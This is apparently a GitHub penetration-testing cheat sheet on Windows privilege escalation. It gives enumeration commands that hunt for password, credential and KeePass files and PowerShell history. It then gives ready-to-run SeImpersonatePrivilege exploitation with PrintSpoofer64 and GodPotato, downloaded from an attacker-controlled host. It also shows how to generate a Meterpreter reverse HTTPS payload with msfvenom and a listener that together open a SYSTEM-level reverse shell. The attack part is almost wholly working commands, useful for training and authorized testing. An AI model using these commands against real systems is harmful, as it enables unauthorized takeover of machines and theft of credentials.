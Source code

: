# 04 - Privilege Escalation

Index
- [System Enumeration](#System-Enumeration)
- [SeImpersonatePrivilege](#SeImpersonatePrivilege)
    - [Exploit by PrintSpoofer64](#Exploit-by-PrintSpoofer64)
    - [Exploit by GodPotato](#Exploit-by-GodPotato)

## System Enumeration
Base commands for Windows:
``` powershell
whoami                                  ## domain\username
whoami /groups                          ## my groups
whoami /priv                            ## user's local privileges
Get-LocalUser                           ## local users list
Get-LocalGroup                          ## local groups list
Get-LocalGroupMember $GROUP_NAME        ## members list
net user $USERNAME                      ## user information
net user /domain                        ## domain user list

systeminfo                              ## OS version, domain config, ...
ipconfig /all                           ## network configuration
route print                             ## local routing table
netstat -nao                            ## acctive connections and listening ports
Get-ChildItem Env:                      ## environment vars -- tips: informations hidden
Get-Process                             ## process list

Get-History                             ## history
(Get-PSReadlineOption).HistorySavePath  ## read the content to access the history
```
Search information in file:
``` powershell
Get-ChildItem -Path c:\ -Include *.txt -File -Recurse -ErrorAction SilentlyContinue                             ## search for interesting file
Get-ChildItem -Path c:\ -Include *.pdf -File -Recurse -ErrorAction SilentlyContinue                             ## search for interesting file
Get-ChildItem -Path c:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue                            ## search for interesting file
Get-ChildItem -Path c:\ -Include credential* -File -Recurse -ErrorAction SilentlyContinue                       ## search for interesting file
Get-ChildItem -Path c:\ -Include password* -File -Recurse -ErrorAction SilentlyContinue                         ## search for interesting file

Get-ChildItem -Path c:\ -Include *.git* -File -Recurse -ErrorAction SilentlyContinue                            ## search for git repo
git log                                                                                                         ## check information in log
git view $LOGID                                                                                                 ## check commit log content
```

Other:
``` powershell
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname ## installed software
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname             ## installed software
```

Tools:
 - winPEAS.exe
 - Seatbelt.exe

## SeImpersonatePrivilege
### Requirements
- Need access to the target system.
- Verify user's privileges:
``` powershell
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled     ## possibly vulnerable
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

### Exploit by PrintSpoofer64
PrintSpoofer64.exe can exploit the local system and elevate the privileges.
``` powershell
iwr http://192.168.1.1:8888/PrintSpoofer64.exe -outfile PrintSpoofer64.exe      ## download on target system
.\PrintSpoofer64.exe -i -c powershell.exe                                       ## exploit
```

### Exploit by GodPotato
GodPotato.exe can exploit the local system and run command with elevate privilege. Useful link: https://jlajara.gitlab.io/Potatoes_Windows_Privesc.

Generate a payload and a listester:
``` bash
msfvenom -p windows/x64/meterpreter_reverse_https LHOST=$KALI LPORT=443 -f exe -o payload.exe   ## generate payload
msfconsole                                                                                      ## open msfconsole
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter_reverse_https                 ## set payload
msf6 exploit(multi/handler) > set LHOST $KALI
msf6 exploit(multi/handler) > set LPORT 443
msf6 exploit(multi/handler) > run
```

Exploit the system:
``` powershell
iwr http://192.168.1.1:8888/payload.exe -outfile payload.exe                                    ## download payload on target system
iwr http://192.168.1.1:8888/GodPotato.exe -outfile GodPotato.exe                                ## download exploit on target system
./GodPotato.exe -cmd "powershell /c ./payload.exe"                                              ## exploit: open a reverse shell
```
